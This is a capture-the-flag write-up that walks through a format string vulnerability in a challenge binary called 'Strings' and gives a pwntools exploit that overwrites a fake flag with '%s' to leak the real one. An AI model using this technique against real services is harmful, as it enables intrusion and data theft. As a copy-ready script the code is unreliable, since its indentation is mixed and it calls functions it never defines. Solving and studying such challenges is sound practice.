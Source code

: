 # Strings

We can see format string vulnerability in main()

```c
printf(s);
main2();
```

Then *main2()* is called that reads real flag from file and puts it on stack. Then main2() printf fake flag.

```c
stream = fopen("flag.txt", "r");
fgets(s, 40, stream);
printf("n00bz{f4k3_fl4g}");
```

So to get real flag we need to overflow fake flag and change it to "%s".
It's pretty simple to do using pwntools. Here is the exploit:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import  *
import re, sys, struct

EXE =  "./strings"
TARGET =  "challs.n00bzunit3d.xyz"
PORT =  7150
FRM_OFFSET =  6


def  pwn():    
    elf = ELF(EXE)    
    r.recvuntil(b"Do you love strings? \n")
    payload =  b""
    payload += fmtstr_payload(FRM_OFFSET, {elf.symbols['fake_flag'] : b'%s\00'})
    r.sendline(payload)   
	r.interactive()


def  remote(argv=[], *a, **kw):
    '''Connect to process on remote host.'''
    io=connect(TARGET, PORT)
    if args.GDB:
	    gdb.attach(io, gdbscript=gdbscript)
    return io


def  start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
	    return local(argv, *a, **kw)
    elif args.REMOTE:
	    return remote(argv, *a, **kw)
    

if  __name__  ==  "__main__":
    elf = context.binary = ELF(EXE, checksec=True)
    r = start()
    pwn()
```

